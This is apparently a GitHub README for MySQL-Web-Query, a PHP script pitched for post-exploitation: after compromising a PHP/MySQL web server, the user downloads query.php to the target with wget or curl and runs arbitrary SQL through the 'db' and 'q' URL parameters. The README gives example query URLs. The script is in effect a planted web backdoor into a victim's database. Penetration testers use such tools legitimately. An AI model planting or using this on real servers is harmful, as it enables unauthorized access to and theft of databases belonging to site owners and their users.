 # MySQL Web-Query

There are cases (in a post-exploitation scenario) where, after committing a web application and getting the shell, it is not possible to interact with MySQL due to the limitations of interaction from the shell that was obtained.

In this case **MySQL-Web-Query** can be useful.

### :hammer_and_wrench: Requirements

The compromised web server is required to use PHP technology and MySQL as DBMS.

### 📋 How to use

Transfer the script to the web server in a directory accessible by the browser:
```
wget https://raw.githubusercontent.com/caique-garbim/MySQL-Web-Query/main/query.php
```
or
```
curl https://raw.githubusercontent.com/caique-garbim/MySQL-Web-Query/main/query.php > query.php
```
<br>

**YOU MUST CHANGE THE CREDENTIALS WRITTEN IN THIS SCRIPT TO VALID MYSQL CREDENTIALS**

![image](https://user-images.githubusercontent.com/76706456/181995869-3400e6e9-c19c-4d70-883a-cf4400197ccf.png)

<br>

You can query the database through parameters inserted in the URL. **db** (database) and **q** (query) parameters must be informed. Examples:
```
http://web_server/query.php?db=mysql&q=select user();
```
![image](https://user-images.githubusercontent.com/76706456/178148420-53e2f3bb-6071-486f-900a-6e0d6f7e0582.png)
```
http://web_server/query.php?db=mysql&q=show tables;
```
![image](https://user-images.githubusercontent.com/76706456/178148558-2921f6ad-45f9-446e-95c0-7b0ee3e9f0b0.png)
